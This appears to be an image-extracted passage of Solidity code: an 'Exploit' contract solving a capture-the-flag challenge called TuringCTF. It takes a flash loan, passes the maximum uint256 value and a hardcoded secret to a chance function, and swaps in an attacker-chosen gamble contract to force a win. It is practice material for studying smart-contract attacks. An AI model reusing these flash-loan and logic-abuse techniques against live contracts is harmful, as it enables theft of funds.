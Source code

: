 ```
}

interface TuringLoan{
    function flashLoan(uint256 amount) external;
}

interface TuringChallenge{
    function register(string memory _username) external;
    function get_chance(uint256 n, string memory secret) external returns (bool);
    function change_gamble_function(address _gambleChallenge) external;
    function gamble_chance() external;
    function use_chances() external returns (bool);
    function is_winner(address _addr) external view returns (bool);
}


contract Exploit{

    TuringCTF public ctf;
    TuringCoin tngc;
    TuringLoan loaner;
    TuringChallenge chall;
    uint256 constant DECIMALS = 1;

    constructor(address _ctf) {
        ctf = TuringCTF(_ctf);
        tngc = TuringCoin(ctf.turingCoin_address());
        loaner = TuringLoan(ctf.turingLoan_address());
        chall = TuringChallenge(ctf.turingChallenge_address());

    }

    function setup(address _gambl_addr) external {
        loaner.flashLoan(250_000);
        get_chance();
        change_gam_fun(_gambl_addr);
        for(uint i = 0; i < 5; i++){
            chall.gamble_chance();
        }
    }

    function try_win() external{
        chall.use_chances();
        require(chall.is_winner(address(this)), "not won");
    }

    function receiveFlashLoan(uint256 amount) external returns (bool) {
        //register
        chall.register("lautaro");
        //pay back flash loan
        return tngc.transfer(address(loaner), amount);
    }

    function get_chance() private{
        chall.get_chance(115792089237316195423570985008687907853269984665640564039457584007913129639935,
        "46174a072891a58cc820e7071d0fc7c8c1881ce0215e21c15c794a555894efcb");
    }

    function gamble_chance() external returns (bool){
        chall.gamble_chance();
    }

```